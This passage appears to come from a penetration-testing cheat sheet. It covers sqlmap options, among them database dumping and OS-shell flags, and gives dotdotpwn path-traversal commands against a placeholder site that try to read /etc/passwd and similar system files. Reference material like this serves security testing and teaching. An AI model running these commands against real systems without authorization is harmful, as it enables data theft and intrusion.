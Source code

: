 | Option | Description |
| --- | --- |
| -u | Target URL |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |

For more options run `man sqlmap`, `sqlmap -h` or `sqlmap -hh`.

<p id="dotdotpwn"/>

### dotdotpwn

Traverse a path (e.g. `somesite.com/../../etc/shadow`):

```fundamental
dotdotpwn -m http -h somesite.com -f /etc/passwd -k "root"

dotdotpwn -m http -S -h somesite.com -f /windows/win.ini -k "mci"

dotdotpwn -m http-url -u https://somesite.com/index.php?file=TRAVERSAL -f /etc/hosts -k "localhost"
```

| Option | Description |
| --- | --- |
| -m | Module (http, http-url, ftp, tftp payload, stdout) |
| -h | Hostname |
| -O | Operating System detection for intelligent fuzzing (nmap) |
| -o | Operating System type if known ("windows", "unix" or "generic") |
| -d | Depth of traversals (default: 6) |
| -f | Specific filename (default: according to OS detected) |
| -S | Use SSL for HTTP and Payload module (not needed for http-url) |
| -u | URL with the part to be fuzzed marked as TRAVERSAL |
| -k | Text pattern to match in the response |
| -p | Filename with the payload to be sent and the part to be fuzzed marked with the TRAVERSAL keyword |
| -x | Port to connect (default: HTTP=80; FTP=21; TFTP=69) |
| -U | Username (default: 'anonymous') |
| -P | Password (default: 'dot@dot.pwn') |
| -M | HTTP Method to use when using the 'http' module (GET, POST, HEAD, COPY, MOVE, default: GET) |
| -b | Break after the first vulnerability is found |
| -C | Continue if no data was received from host |

